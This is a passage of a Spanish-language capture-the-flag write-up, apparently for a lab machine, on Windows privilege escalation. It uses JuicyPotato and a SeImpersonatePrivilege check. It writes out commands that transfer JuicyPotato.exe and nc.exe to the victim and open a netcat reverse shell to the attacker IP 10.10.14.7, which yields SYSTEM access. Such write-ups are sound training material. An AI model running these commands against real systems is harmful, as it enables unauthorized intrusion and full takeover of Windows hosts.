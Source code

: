 ### Rootear la maquina {-}

```bash
systeminfo
whoami /priv
```

Aqui vemos que tenemos el `SeImpersonatePrivilege` ;)

Tiramos como siempre de JuicyPotatoe.exe

Lo descargamos en la maquina de atacante y lo enviamos a la victima.

```bash
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
cp /usr/share/sqlninja/apps/nc.exe
python3 -m http.server 80
```

En la maquina victima lo descargamos

```bash
cd C:\Windows\Temp
mkdir privesc
cd privesc
iwr -uri http://10.10.14.7/JuicyPotato.exe -OutFile JuicyPotato.exe
iwr -uri http://10.10.14.7/nc.exe -OutFile nc.exe
```

Nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

Nos connectamos con el servicio nc con el JuicyPotato.

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c .\nc.exe -e cmd 10.10.14.7 443"
```

Aqui nos sale une error 10038. Esto suele passar cuando el CLSID no es el correcto. Como savemos con el systeminfo
que estamos en una maquina Windows10 Enterprise, podemos buscar el CLSID correcto en [Interesting CLSID](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)
encontramos el CLSID que corresponde y con el parametro `-c`

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c .\nc.exe -e cmd 10.10.14.7 443" -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"
```

La reverse shell nos a functionnado y con `whoami` vemos que ya somos nt authority\system y podemos ver la flag.

